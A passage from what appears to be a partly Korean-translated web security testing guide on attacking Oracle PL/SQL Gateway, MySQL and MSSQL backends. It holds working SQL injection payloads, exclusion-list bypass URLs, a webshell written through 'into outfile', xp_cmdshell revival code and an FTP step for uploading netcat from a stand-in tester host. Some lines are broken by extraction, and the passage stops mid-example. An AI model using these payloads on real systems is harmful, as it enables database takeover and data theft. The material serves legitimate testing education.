The web server's response headers are a good indicator as to whether the server is running the PL/SQL Gateway. The table below lists some of the typical server response headers: 
Oracle-Application-Server-10g Oracle-Application-Server-10g/10.1.2.0.0 Oracle-HTTP-Server Oracle-Application-Server-10g/9.0.4.1.0 Oracle-HTTP-Server Oracle-Application-Server-10g OracleAS-Web-Cache10g/9.0.4.2.0 (N) Oracle-Application-Server-10g/9.0.4.0.0 Oracle HTTP Server Powered by Apache Oracle HTTP Server Powered by Apache/1.3.19 (Unix) mod_ plsql/3.0.9.8.3a Oracle HTTP Server Powered by Apache/1.3.19 (Unix) mod_ plsql/3.0.9.8.3d Oracle HTTP Server Powered by Apache/1.3.12 (Unix) mod_ plsql/3.0.9.8.5e Oracle HTTP Server Powered by Apache/1.3.12 (Win32) mod_ plsql/3.0.9.8.5e Oracle HTTP Server Powered by Apache/1.3.19 (Win32) mod_ plsql/3.0.9.8.3c Oracle HTTP Server Powered by Apache/1.3.22 (Unix) mod_ plsql/3.0.9.8.3b Oracle HTTP Server Powered by Apache/1.3.22 (Unix) mod_ plsql/9.0.2.0.0 Oracle_Web_Listener/4.0.7.1.0EnterpriseEdition Oracle_Web_Listener/4.0.8.2EnterpriseEdition Oracle_Web_Listener/4.0.8.1.0EnterpriseEdition Oracle_Web_listener3.0.2.0.0/2.14FC1 Oracle9iAS/9.0.2 Oracle HTTP Server Oracle9iAS/9.0.3.1 Oracle HTTP Server 


The NULL test 
In PL/SQL, "null" is a perfectly acceptable expression: 
SQL> BEGIN
 2 NULL;
 3 END;
 4 / 
PL/SQL procedure successfully completed. 
We can use this to test if the server is running the PL/SQL Gateway. Simply take the DAD and append NULL, then append NOSUCHPROC: 
http://www.example.com/pls/dad/null 
http://www.example.com/pls/dad/nosuchproc 
If the server responds with a 200 OK response for the first and a 404 Not Found for the second then it indicates that the server is running the PL/SQL Gateway. 
Known package access 
On older versions of the PL/SQL Gateway, it is possible to directly access the packages that form the PL/SQL Web Toolkit such as the OWA and HTP packages. One of these packages is the OWA_UTIL package, which we'll speak about more later on. This package contains a procedure called SIGNATURE and it simply outputs in HTML a PL/SQL signature. Thus requesting 
"This page was produced by the PL/SQL Web Toolkit on date" 
returns the following output on the webpage 
"This page was produced by the PL/SQL Cartridge on date" 
or "This page was produced by the PL/SQL Cartridge on date" 
If you don't get this response but a 403 Forbidden response then you can infer that the PL/SQL Gateway is running. This is the response you should get in later versions or patched systems. 
Accessing Arbitrary PL/SQL Packages in the Database 
It is possible to exploit vulnerabilities in the PL/SQL packages that are installed by default in the database server. How you do this depends on the version of the PL/SQL Gateway. In earlier versions of the PL/SQL Gateway, there was nothing to stop an attacker from accessing an arbitrary PL/SQL package in the database server. We mentioned the OWA_UTIL package earlier. This can be used to run arbitrary SQL queries: 
http://www.example.com/pls/dad/OWA_UTIL.CELLSPRINT? 
P_THEQUERY=SELECT+USERNAME+FROM+ALL_USERS Cross Site Scripting attacks could be launched via the HTP package: 
http://www.example.com/pls/dad/HTP.PRINT?C
BUF=<script>alert('XSS')</script> 
Clearly, this is dangerous, so Oracle introduced a PLSQL Exclusion list to prevent direct access to such dangerous procedures. Banned items include any request starting with SYS.*, any request starting with DBMS_*, any request with HTP.* or OWA*. It is possible to bypass the exclusion list however. What's more, the exclusion list does not prevent access to packages in the CTXSYS and MDSYS schemas or others, so it is possible to exploit flaws in these packages: 
http://www.example.com/pls/dad/CXTSYS.DRILOAD.VALI
DATE_STMT?SQLSTMT=SELECT+1+FROM+DUAL 
This will return a blank HTML page with a 200 OK response if the database server is still vulnerable to this flaw (CVE-2006-0265) 
Testing the PL/SQL Gateway For Flaws 
Over the years, the Oracle PL/SQL Gateway has suffered from a number of flaws, including access to admin pages (CVE-20020561), buffer overflows (CVE-2002-0559), directory traversal bugs, and vulnerabilities that allow attackers to bypass the Exclusion List and go on to access and execute arbitrary PL/SQL packages in the database server. 
Bypassing the PL/SQL Exclusion List 
It is incredible how many times Oracle has attempted to fix flaws that allow attackers to bypass the exclusion list. Each patch that Oracle has produced has fallen victim to a new bypass technique. The history of this sorry story can be found here: http://seclists. org/fulldisclosure/2006/Feb/0011.html 
Bypassing the Exclusion List - Method 1 
When Oracle first introduced the PL/SQL Exclusion List to prevent attackers from accessing arbitrary PL/SQL packages, it could be trivially bypassed by preceding the name of the schema/package with a hex encoded newline character or space or tab: 
http://www.example.com/pls/dad/%0ASYS.PACKAGE.PROC 
http://www.example.com/pls/dad/%20SYS.PACKAGE.PROC 
http://www.example.com/pls/dad/%09SYS.PACKAGE.PROC 
Bypassing the Exclusion List - Method 2 
Later versions of the Gateway allowed attackers to bypass the exclusion list by preceding the name of the schema/package with a label. In PL/SQL a label points to a line of code that can be jumped to using the GOTO statement and takes the following form: <<NAME>> 
http://www.example.com/pls/dad/<<LBL>>SYS.PACKAGE.PROC 
Bypassing the Exclusion List - Method 3 
Simply placing the name of the schema/package in double quotes could allow an attacker to bypass the exclusion list. Note that this will not work on Oracle Application Server 10g as it converts the user's request to lowercase before sending it to the database server and a quote literal is case sensitive - thus "SYS" and "sys" are not the same and requests for the latter will result in a 404 Not Found. On earlier versions though the following can bypass the exclusion list: 


http://www.example.com/pls/dad/"SYS".PACKAGE.PROC 
Bypassing the Exclusion List - Method 4 
Depending upon the character set in use on the web server and on the database server, some characters are translated. Thus, depending upon the character sets in use, the "y" character (0xFF) might be converted to a "Y" at the database server. Another character that is often converted to an upper case "Y" is the Macron character - 0xAF. This may allow an attacker to bypass the exclusion list: 
http://www.example.com/pls/dad/S%FFS.PACKAGE.PROC 
http://www.example.com/pls/dad/S%AFS.PACKAGE.PROC 
Bypassing the Exclusion List - Method 5 
Some versions of the PL/SQL Gateway allow the exclusion list to be bypassed with a backslash - 0x5C: 
http://www.example.com/pls/dad/%5CSYS.PACKAGE.PROC 
Bypassing the Exclusion List - Method 6 
This is the most complex method of bypassing the exclusion list and is the most recently patched method. If we were to request the following 
http://www.example.com/pls/dad/foo.bar?xyz=123 
the application server would execute the following at the database server: 
1 declare 
2 rc__ number; 
3 start_time__ binary_integer; 
4 simple_list__ owa_util.vc_arr; 
5 complex_list__ owa_util.vc_arr; 
6 begin 
7 start_time__ := dbms_utility.get_time; 
8 owa.init_cgi_env(:n__,:nm__,:v__); 
9 htp.HTBUF_LEN := 255; 
10 null; 
11 null; 
12 simple_list__(1) := 'sys.%'; 
13 simple_list__(2) := 'dbms\_%'; 
14 simple_list__(3) := 'utl\_%'; 
15 simple_list__(4) := 'owa\_%'; 
16 simple_list__(5) := 'owa.%'; 
17 simple_list__(6) := 'htp.%'; 
18 simple_list__(7) := 'htf.%'; 
19 if ((owa_match.match_pattern('foo.bar', simple_list__, 
complex_list__, true))) then 20 rc__ := 2; 
21 else 
22 null; 
23 orasso.wpg_session.init(); 
24 foo.bar(XYZ=>:XYZ); 
25 if (wpg_docload.is_file_download) then 
26 rc__ := 1; 
27 wpg_docload.get_download_file(:doc_info); 
28 orasso.wpg_session.deinit(); 
29 null; 
30 null; 
31 commit; 
32 else 
33 rc__ := 0; 
34 orasso.wpg_session.deinit(); 
35 null; 
36 null; 
37 commit; 
38 owa.get_page(:data__,:ndata__); 
39 end if; 
40 end if; 
41 :rc__ := rc__; 
42 :db_proc_time__ := dbms_utility.get_time.start_ 
time__; 
43 end; 
Notice lines 19 and 24. On line 19, the user's request is checked against a list of known "bad" strings, i.e., the exclusion list. If the requested package and procedure do not contain bad strings, then the procedure is executed on line 24. The XYZ parameter is passed as a bind variable. 
If we then request the following: 
http://server.example.com/pls/dad/INJECT'POINT 
the following PL/SQL is executed: 
.. 
18 simple_list__(7) := 'htf.%'; 
19 if ((owa_match.match_pattern('inject'point', simple_ 
list__, complex_list__, true))) then 
20 rc__ := 2; 
21 else 
22 null; 
23 orasso.wpg_session.init(); 
24 inject'point; 
.. 
This generates an error in the error log: "PLS-00103: Encountered the symbol 'POINT' when expecting one of the following. . ." What we have here is a way to inject arbitrary SQL. This can be exploited to bypass the exclusion list. First, the attacker needs to find a PL/SQL procedure that takes no parameters and doesn't match anything in the exclusion list. There are a good number of default packages that match this criteria, for example: 
JAVA_AUTONOMOUS_TRANSACTION.PUSH 
XMLGEN.USELOWERCASETAGNAMES 


PORTAL.WWV_HTP.CENTERCLOSE 
ORASSO.HOME 
WWC_VERSION.GET_HTTP_DATABASE_INFO 

An attacker should pick one of these functions that is actually available on the target system (i.e., returns a 200 OK when requested). As a test, an attacker can request 
http://server.example.com/pls/dad/orasso.home?FOO=BAR 
the server should return a "404 File Not Found" response because the orasso.home procedure does not require parameters and one has been supplied. However, before the 404 is returned, the following PL/SQL is executed: 
.. 
.. 
if ((owa_match.match_pattern('orasso.home', simple_ 
list__, complex_list__, true))) then

 rc__ := 2; 
else
 null;
   orasso.wpg_session.init();
   orasso.home(FOO=>:FOO);
 ..
 .. 

Note the presence of FOO in the attacker's query string. Attackers can abuse this to run arbitrary SQL. First, they need to close the brackets: 
http://server.example.com/pls/dad/orasso.home?);--=BAR 
This results in the following PL/SQL being executed: 
.. 
orasso.home();--=>:);--); 
.. 

Note that everything after the double minus (--) is treated as a comment. This request will cause an internal server error because one of the bind variables is no longer used, so the attacker needs to add it back. As it happens, it's this bind variable that is the key to running arbitrary PL/SQL. For the moment, they can just use HTP. PRINT to print BAR, and add the needed bind variable as :1: 
http://server.example.com/pls/dad/orasso.home?);HTP. 
PRINT(:1);--=BAR 

This should return a 200 with the word "BAR" in the HTML. What's happening here is that everything after the equals sign - BAR in this case - is the data inserted into the bind variable. Using the same technique it's possible to also gain access to owa_util.cellsprint again: http://www.example.com/pls/dad/orasso.home?);OWA_ UTIL.CELLSPRINT(:1);--=SELECT+USERNAME+FROM+ALL_ USERS 
To execute arbitrary SQL, including DML and DDL statements, the attacker inserts an execute immediate :1: 
http://server.example.com/pls/dad/orasso.home?);execute%20immediate%20:1;--=select%201%20from%20dual 

Note that the output won't be displayed. This can be leveraged to exploit any PL/SQL injection bugs owned by SYS, thus enabling an attacker to gain complete control of the backend database server. For example, the following URL takes advantage of the SQL injection flaws in DBMS_EXPORT_EXTENSION (see http://secunia. com/advisories/19860) 
http://www.example.com/pls/dad/orasso.home?); execute%20immediate%20:1;--=DECLARE%20BUF%20 VARCHAR2(2000);%20BEGIN%20 BUF:=SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES ('INDEX_NAME','INDEX_SCHEMA','DBMS_OUTPUT.PUT_ LINE(:p1); EXECUTE%20IMMEDIATE%20''CREATE%20OR%20REPLACE%20 PUBLIC%20SYNONYM%20BREAKABLE%20FOR%20SYS. OWA_UTIL''; END;--','SYS',1,'VER',0);END; 
Assessing Custom PL/SQL Web Applications 
During black box security assessments, the code of the custom PL/SQL application is not available, but it still needs to be assessed for security vulnerabilities. 
Testing for SQL Injection 
Each input parameter should be tested for SQL injection flaws. These are easy to find and confirm. Finding them is as easy as embedding a single quote into the parameter and checking for error responses (which include 404 Not Found errors). Confirming the presence of SQL injection can be performed using the concatenation operator. For example, assume there is a bookstore PL/SQL web application that allows users to search for books by a given author: 
http://www.example.com/pls/bookstore/books.search?au-thor=DICKENS 
If this request returns books by Charles Dickens, but 
http://www.example.com/pls/bookstore/books.search?author=DICK'ENS 

returns an error or a 404, then there might be a SQL injection flaw. This can be confirmed by using the concatenation operator: http://www.example.com/pls/bookstore/books.search?au


thor=DICK'||'ENS 
If this request returns books by Charles Dickens, you've confirmed the presence of the SQL injection vulnerability. 


Tools 
============================================================================================

- SQLInjector: http://www.databasesecurity.com/sql-injector.htm 
- Orascan (Oracle Web Application VA scanner), NGS SQuirreL (Oracle RDBMS VA Scanner): http://www.nccgroup.com/en/our-services/security-testing-audit-compliance/informationsecurity-software/ngs-orascan/ 

|

References 
============================================================================================

Whitepapers 
---------------------------------------------------------------------------------------------

- Hackproofing Oracle Application Server (A Guide to Securing Oracle 9): http://www.itsec.gov.cn/docs/20090507151158287612.pdf 
- Oracle PL/SQL Injection: http://www.databasesecurity.com/oracle/oracle-plsql-2.pdf 

|

|

============================================================================================
MySQL 테스트
============================================================================================

개요
============================================================================================

SQL Injection vulnerabilities occur whenever input is used in the construction of a SQL query without being adequately constrained or sanitized. The use of dynamic SQL (the construction of SQL queries by concatenation of strings) opens the door to these vulnerabilities. SQL injection allows an attacker to access the SQL servers. It allows for the execution of SQL code under the privileges of the user used to connect to the database. 

MySQL server has a few particularities so that some exploits need to be specially customized for this application. That's the subject of this section. 

|

테스트 방법
============================================================================================

When an SQL injection vulnerability is found in an application backed by a MySQL database, there are a number of attacks that could be performed depending on the MySQL version and user privileges on DBMS. 
MySQL comes with at least four versions which are used in production worldwide, 3.23.x, 4.0.x, 4.1.x and 5.0.x. Every version has a set of features proportional to version number. 

- From Version 4.0: UNION 
- From Version 4.1: Subqueries 
- From Version 5.0: Stored procedures, Stored functions and the view named INFORMATION_SCHEMA 
- From Version 5.0.2: Triggers 

It should be noted that for MySQL versions before 4.0.x, only Boolean or time-based Blind Injection attacks could be used, since the subquery functionality or UNION statements were not implemented. 

From now on, we will assume that there is a classic SQL injection vulnerability, which can be triggered by a request similar to the the one described in the Section on Testing for SQL Injection. 

.. code-block:: html

    http://www.example.com/page.php?id=2 

|

싱글쿼터 문제
---------------------------------------------------------------------------------------------

Before taking advantage of MySQL features, it has to be taken in consideration how strings could be represented in a statement, as often web applications escape single quotes. 

MySQL quote escaping is the following: 

.. code-block:: html

    'A string with \'quotes\'' 

That is, MySQL interprets escaped apostrophes (\') as characters and not as metacharacters. 
So if the application, to work properly, needs to use constant strings, two cases are to be differentiated: 

1. Web app escapes single quotes (' => \\') 
2. Web app does not escape single quotes (' => ') 

Under MySQL, there is a standard way to bypass the need of single quotes, having a constant string to be declared without the need for single quotes. 

Lets suppose we want to know the value of a field named 'password' in a record, with a condition like the following: 


1. password like 'A%' 
2. The ASCII values in a concatenated hex: 

.. code-block:: html

    password LIKE 0x4125 

3. The char() function: 

.. code-block:: html

    password LIKE CHAR(65,37) 

|

다양한 혼합 쿼리
---------------------------------------------------------------------------------------------

MySQL library connectors do not support multiple queries separated by ';' so there's no way to inject multiple non-homogeneous SQL commands inside a single SQL injection vulnerability like in Microsoft SQL Server. 
For example the following injection will result in an error: 

.. code-block:: html

    1 ; update tablename set code='javascript code' where 1 -

|

정보 수집
============================================================================================

MySQL 핑거프린팅
---------------------------------------------------------------------------------------------

Of course, the first thing to know is if there's MySQL DBMS as a back end database. MySQL server has a feature that is used to let other DBMS ignore a clause in MySQL dialect. When a comment block ('/**/') contains an exclamation mark ('/*! sql here*/') it is interpreted by MySQL, and is considered as a normal comment block by other DBMS as explained in MySQL manual. 

Example: 

.. code-block:: html

    1 /*! and 1=0 */ 

Result Expected: 

If MySQL is present, the clause inside the comment block will be interpreted. 

Version 

There are three ways to gain this information: 

1. By using the global variable @@version 
2. By using the function [VERSION()] 
3. By using comment fingerprinting with a version number 
/*!40110 and 1=0*/ 
which means 

.. code-block:: html

    if(version >= 4.1.10) 
    add 'and 1=0' to the query. 

These are equivalent as the result is the same. In band injection: 

.. code-block:: html

    1 AND 1=0 UNION SELECT @@version /* 

Inferential injection: 

.. code-block:: html

    1 AND @@version like '4.0%' 

Result Expected: 

A string like this: 

.. code-block:: html

    5.0.22-log 

|

Login User 
---------------------------------------------------------------------------------------------

There are two kinds of users MySQL Server relies upon. 

1. [USER()]: the user connected to the MySQL Server. 
2. [CURRENT_USER()]: the internal user who is executing the query. 

There is some difference between 1 and 2. The main one is that an anonymous user could connect (if allowed) with any name, but the MySQL internal user is an empty name (''). Another difference is that a stored procedure or a stored function are executed as the creator user, if not declared elsewhere. This can be known by using CURRENT_USER. 
In band injection: 

.. code-block:: html

    1 AND 1=0 UNION SELECT USER() 

Inferential injection: 

.. code-block:: html

    1 AND USER() like 'root%' 

Result Expected: 

A string like this: 

.. code-block:: html

    user@hostname 

Database name in use 

There is the native function DATABASE() In band injection: 

.. code-block:: html

    1 AND 1=0 UNION SELECT DATABASE() 

Inferential injection: 

.. code-block:: html

    1 AND DATABASE() like 'db%' 

Result Expected: 

A string like this: 

.. code-block:: html

    dbname 

|

INFORMATION_SCHEMA 
---------------------------------------------------------------------------------------------

From MySQL 5.0 a view named [INFORMATION_SCHEMA] was created. It allows us to get all informations about databases, tables, and columns, as well as procedures and functions. 
Here is a summary of some interesting Views. 

.. csv-table::

    "Tables_in_INFORMATION_SCHEMA", "DESCRIPTION"
    "..[skipped]..", "..[skipped].."
    "SCHEMATA", "SELECT_priv를 가지고 있는 사용자의 모든 데이터베이스"
    "SCHEMA_PRIVILEGES", "사용자가 각각의 DB에 대해 가지고 있는 권한"
    "TABLES", "SELECT_priv를 가지고 있는 사용자의 모든 테이블"
    "TABLE_PRIVILEGES", "사용자가 각각의 테이블에 대해 가지고 있는 권한"
    "COLUMNS", "SELECT_priv를 가지고 있는 사용자의 모든 컬럼"
    "COLUMN_PRIVILEGES", "사용자가 각각의 컬럼에 대해 가지고 있는 권한"
    "VIEWS", "SELECT_priv를 가지고 있는 사용자의 모든 데이터"
    "ROUTINES", "프로시저와 함수 (EXECUTE_priv 필요)" 
    "TRIGGERS", "트리거 (INSERT_priv 필요)"
    "USER_PRIVILEGES", "접속 사용자가 가지는 권한"

All of this information could be extracted by using known techniques as described in SQL Injection section. 

|

공격 벡터
---------------------------------------------------------------------------------------------

파일 쓰기
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

If the connected user has FILE privileges and single quotes are not escaped, the 'into outfile' clause can be used to export query results in a file. 

.. code-block:: html

    Select * from table into outfile '/tmp/file' 

Note: there is no way to bypass single quotes surrounding a filename. So if there's some sanitization on single quotes like escape (\') there will be no way to use the 'into outfile' clause. 


This kind of attack could be used as an out-of-band technique to gain information about the results of a query or to write a file which could be executed inside the web server directory. 

Example: 

.. code-block:: html

    1 limit 1 into outfile '/var/www/root/test.jsp' FIELDS 
    ENCLOSED BY '//'  LINES TERMINATED BY '\n<%jsp code 
    here%>'; 

**예상 결과**

Results are stored in a file with rw-rw-rw privileges owned by MySQL user and group. 
Where /var/www/root/test.jsp will contain: 

.. code-block:: html

    //field values// 
    <%jsp code here%> 

|

파일 읽기
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Load_file is a native function that can read a file when allowed by the file system permissions. If a connected user has FILE privileges, it could be used to get the files' content. Single quotes escape sanitization can by bypassed by using previously described techniques. 

.. code-block:: html

    load_file('filename') 

**예상 결과**

The whole file will be available for exporting by using standard techniques. 

|

기본적인 SQL 인젝션 공격
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

In a standard SQL injection you can have results displayed directly in a page as normal output or as a MySQL error. By using already mentioned SQL Injection attacks and the already described MySQL features, direct SQL injection could be easily accomplished at a level depth depending primarily on the MySQL version the pentester is facing. 
A good attack is to know the results by forcing a function/procedureor the server itself to throw an error. A list of errors thrown by MySQL and in particular native functions could be found on MySQL Manual. 

|

Out of band SQL Injection 
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Out of band injection could be accomplished by using the 'into out-file' clause. 

|

Blind SQL Injection 
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

For blind SQL injection, there is a set of useful function natively provided by MySQL server. 
- 문자열 길이

.. code-block:: html

    LENGTH(str) 

- 주어진 문자열로 부터 부분 문자 추출

.. code-block:: html

    SUBSTRING(string, offset, #chars_returned) 

- 시간 기반 블라인드 인젝션: BENCHMARK and SLEEP 

.. code-block:: html

    BENCHMARK(#ofcycles,action_to_be_performed ) 

The benchmark function could be used to perform timing attacks, 
when blind injection by boolean values does not yield any results. 

See. SLEEP() (MySQL > 5.0.x) for an alternative on benchmark. 

For a complete list, refer to the MySQL manual at http://dev.mysql.com/doc/refman/5.0/en/functions.html 

|

Tools 
============================================================================================

- Francois Larouche: - http://www.sqlpowerinjector.com/index.htm 
- ilo--, Reversing.org - sqlbftools 
- Bernardo Damele A. G. - sqlmap
- Muhaimin Dzulfakar - MySqloit
- http://sqlsus.sourceforge.net/ 

|

References 
============================================================================================

Whitepapers 
--------------------------------------------------------------------------------------------

- Chris Anley: "Hackproofing MySQL" - http://www.databasesecurity.com/mysql/HackproofingMySQL.pdf 

|

Case Studies 
--------------------------------------------------------------------------------------------

- Zeelock: Blind Injection in MySQL Databases - http://archive.cert.uni-stuttgart.de/bugtraq/2005/02/msg00289.html 

|

|

============================================================================================
MSSQL 테스트
============================================================================================

개요
============================================================================================

In this section some SQL Injection techniques that utilize specific features of Microsoft SQL Server will be discussed. 
SQL injection vulnerabilities occur whenever input is used in the construction of an SQL query without being adequately constrained or sanitized. The use of dynamic SQL (the construction of SQL queries by concatenation of strings) opens the door to these vulnerabilities. SQL injection allows an attacker to access the SQL servers and execute SQL code under the privileges of the user used to connect to the database. 
As explained in SQL injection, a SQL-injection exploit requires two things: an entry point and an exploit to enter. Any user-controlled parameter that gets processed by the application might be hiding a vulnerability. This includes: 

- Application parameters in query strings (e.g., GET requests) 
- Application parameters included as part of the body of a POST request 
- Browser-related information (e.g., user-agent, referrer) 
- Host-related information (e.g., host name, IP) 
- Session-related information (e.g., user ID, cookies) 

Microsoft SQL server has a few unique characteristics, so some exploits need to be specially customized for this application. 

|

테스트 방법
============================================================================================

SQL Server Characteristics 
--------------------------------------------------------------------------------------------

To begin, let's see some SQL Server operators and commands/ stored procedures that are useful in a SQL Injection test: 

1. comment operator: -- (useful for forcing the query to ignore the remaining portion of the original query; this won't be necessary in every case) 
2. query separator: ; (semicolon) 
3. Useful stored procedures include: 

- [xp_cmdshell] executes any command shell in the server with the same permissions that it is currently running. By default, only sysadmin is allowed to use it and in SQL Server 2005 it is disabled by default (it can be enabled again using sp_configure) 
- xp_regread reads an arbitrary value from the Registry (undocumented extended procedure) 
- xp_regwrite writes an arbitrary value into the Registry (undocumented extended procedure) 
- [sp_makewebtask] Spawns a Windows command shell and passes in a string for execution. Any output is returned as rows of text. It requires sysadmin privileges. 
- [xp_sendmail] Sends an e-mail message, which may include a query result set attachment, to the specified recipients. This extended stored procedure uses SQL Mail to send the message. 

Let's see now some examples of specific SQL Server attacks that use the aforementioned functions. Most of these examples will use the exec function. 

Below we show how to execute a shell command that writes the output of the command dir c:\inetpub in a browseable file, assuming that the web server and the DB server reside on the same host. The following syntax uses xp_cmdshell: 

.. code-block:: html

    exec master.dbo.xp_cmdshell 'dir c:\inetpub > c:\inetpub\ 
    wwwroot\test.txt'--

Alternatively, we can use sp_makewebtask: 

.. code-block:: html

    exec sp_makewebtask 'C:\Inetpub\wwwroot\test.txt', 
    'select * from master.dbo.sysobjects'-

A successful execution will create a file that can be browsed by the pen tester. Keep in mind that sp_makewebtask is deprecated, and, even if it works in all SQL Server versions up to 2005, it might be removed in the future. 
In addition, SQL Server built-in functions and environment variables are very handy. The following uses the function db_name() to trigger an error that will return the name of the database: 

.. code-block:: html

    /controlboard.asp?boardID=2&itemnum=1%20AND%20 
    1=CONVERT(int,%20db_name()) 

Notice the use of [convert]: 

.. code-block:: html

    CONVERT ( data_type [ ( length ) ] , expression [ , style ] ) 

CONVERT will try to convert the result of db_name (a string) into an integer variable, triggering an error, which, if displayed by the vulnerable application, will contain the name of the DB. 

The following example uses the environment variable @@version , combined with a "union select"-style injection, in order to find the version of the SQL Server. 

.. code-block:: html

    /form.asp?prop=33%20union%20select%20 
    1,2006-01-06,2007-01-06,1,'stat','name1','na 
    me2',2006-01-06,1,@@version%20--

And here's the same attack, but using again the conversion trick: 

.. code-block:: html

    /form.asp?prop=33%20union%20select%20 
    1,2006-01-06,2007-01-06,1,'stat','name1','na 
    me2',2006-01-06,1,@@version%20--

Information gathering is useful for exploiting software vulnerabilities at the SQL Server, through the exploitation of an SQL-injection attack or direct access to the SQL listener. 

In the following, we show several examples that exploit SQL injection vulnerabilities through different entry points. 

|

Example 1: Testing for SQL Injection in a GET request. 
--------------------------------------------------------------------------------------------

The most simple (and sometimes most rewarding) case would be that of a login page requesting an user name and password for user login. You can try entering the following string "' or '1'='1" (without double quotes): 

.. code-block:: html

    https://vulnerable.web.app/login.asp?Username='%20or%20 
    '1'='1&Password='%20or%20'1'='1 

If the application is using Dynamic SQL queries, and the string gets appended to the user credentials validation query, this may result in a successful login to the application. 

|

Example 2: Testing for SQL Injection in a GET request 
--------------------------------------------------------------------------------------------

In order to learn how many columns exist 

.. code-block:: html

    https://vulnerable.web.app/list_report.aspx?num
    ber=001%20UNION%20ALL%201,1,'a',1,1,1%20FROM%20 
    users;-

|

Example 3: Testing in a POST request 
--------------------------------------------------------------------------------------------

SQL Injection, HTTP POST Content: email=%27&whichSubmit=submit&submit.x=0&submit.y=0 

A complete post example: 

.. code-block:: html

    POST https://vulnerable.web.app/forgotpass.asp HTTP/1.1
    Host: vulnerable.web.app
    User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; en-
    US; rv:1.8.0.7) Gecko/20060909 Firefox/1.5.0.7 Paros/3.2.13 
    Accept: text/xml,application/xml,application/xhtml+xml,text/ 
    html;q=0.9,text/plain;q=0.8,image/png,*/*;q=0.5 
    Accept-Language: en-us,en;q=0.5 
    Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7 
    Keep-Alive: 300 
    Proxy-Connection: keep-alive 
    Referer: http://vulnerable.web.app/forgotpass.asp 
    Content-Type: application/x-www-form-urlencoded 
    Content-Length: 50 

    email=%27&whichSubmit=submit&submit.x=0&submit.y=0 

The error message obtained when a ' (single quote) character is entered at the email field is: 

.. code-block:: html

    PMicrosoft OLE DB Provider for SQL Server error '80040e14' Unclosed quotation mark before the character string  '. /forgotpass.asp, line 15 

|

Example 4: Yet another (useful) GET example 
--------------------------------------------------------------------------------------------

Obtaining the application's source code 

.. code-block:: html

    a' ; master.dbo.xp_cmdshell ' copy c:\inetpub\wwwroot\ 
    login.aspx c:\inetpub\wwwroot\login.txt';--

|

Example 5: custom xp_cmdshell 
--------------------------------------------------------------------------------------------

All books and papers describing the security best practices for SQL Server recommend disabling xp_cmdshell in SQL Server 2000 (in SQL Server 2005 it is disabled by default). However, if we have sysadmin rights (natively or by bruteforcing the sysadmin password, see below), we can often bypass this limitation. 
On SQL Server 2000: 

- If xp_cmdshell has been disabled with sp_dropextendedproc, we can simply inject the following code: 

.. code-block:: html

    sp_addextendedproc 'xp_cmdshell','xp_log70.dll' 

. 
If the previous code does not work, it means that the xp_log70. dll has been moved or deleted. In this case we need to inject the following code: 

.. code-block:: html

    CREATE PROCEDURE xp_cmdshell(@cmd varchar(255), @Wait 
    int = 0) AS  DECLARE @result int, @OLEResult int, @RunResult int  DECLARE @ShellID int  EXECUTE @OLEResult = sp_OACreate 'WScript.Shell', @ShellID 
    OUT  IF @OLEResult <> 0 SELECT @result = @OLEResult  IF @OLEResult <> 0 RAISERROR ('CreateObject %0X', 14, 1, @ 
    OLEResult)  EXECUTE @OLEResult = sp_OAMethod @ShellID, 'Run', Null, 
    @cmd, 0, @Wait
    IF @OLEResult <> 0 SELECT @result = @OLEResult
    IF @OLEResult <> 0 RAISERROR ('Run %0X', 14, 1, @OLERe
    sult)
    EXECUTE @OLEResult = sp_OADestroy @ShellID
    return @result 

This code, written by Antonin Foller (see links at the bottom of the page), creates a new xp_cmdshell using sp_oacreate, sp_oamethod and sp_oadestroy (as long as they haven't been disabled too, of course). Before using it, we need to delete the first xp_ cmdshell we created (even if it was not working), otherwise the two declarations will collide. 

On SQL Server 2005, xp_cmdshell can be enabled by injecting the following code instead: 

.. code-block:: html

    master..sp_configure 'show advanced options',1 
    reconfigure 
    master..sp_configure 'xp_cmdshell',1 
    reconfigure 

|

Example 6: Referer / User-Agent 
--------------------------------------------------------------------------------------------

The REFERER header set to: 

.. code-block:: html

    Referer: https://vulnerable.web.app/login.aspx', 'user_agent', 
    'some_ip'); [SQL CODE]-

Allows the execution of arbitrary SQL Code. The same happens with the User-Agent header set to: 

.. code-block:: html

    sp_addextendedproc 'xp_cmdshell','xp_log70.dll' 

|

Example 7: SQL Server as a port scanner 
--------------------------------------------------------------------------------------------

In SQL Server, one of the most useful (at least for the penetration tester) commands is OPENROWSET, which is used to run a query on another DB Server and retrieve the results. The penetration tester can use this command to scan ports of other machines in the target network, injecting the following query: 

.. code-block:: html

    select * from OPENROWSET('SQLOLEDB','uid=sa;pwd=foo
    bar;Network=DBMSSOCN;Address=x.y.w.z,p;timeout=5','se
    lect 1')-

This query will attempt a connection to the address x.y.w.z on port 
p. If the port is closed, the following message will be returned: 
General network error. Check your network documentation 

.. code-block:: html

    OLE DB provider 'sqloledb' reported an error. The provider 
    did not give any information about the error. 

On the other hand, if the port is open, one of the following errors will be returned: Of course, the error message is not always available. If that is the case, we can use the response time to understand what is going on: with a closed port, the timeout (5 seconds in this example) will be consumed, whereas an open port will return the result right away. 
Keep in mind that OPENROWSET is enabled by default in SQL Server 2000 but disabled in SQL Server 2005. 

|

Example 8: Upload of executables 
--------------------------------------------------------------------------------------------

Once we can use xp_cmdshell (either the native one or a custom one), we can easily upload executables on the target DB Server. A very common choice is netcat.exe, but any trojan will be useful here. If the target is allowed to start FTP connections to the tester's machine, all that is needed is to inject the following queries: At this point, nc.exe will be uploaded and available. 

.. code-block:: html

    exec master..xp_cmdshell 'echo open ftp.tester.org > ftp
    script.txt';--
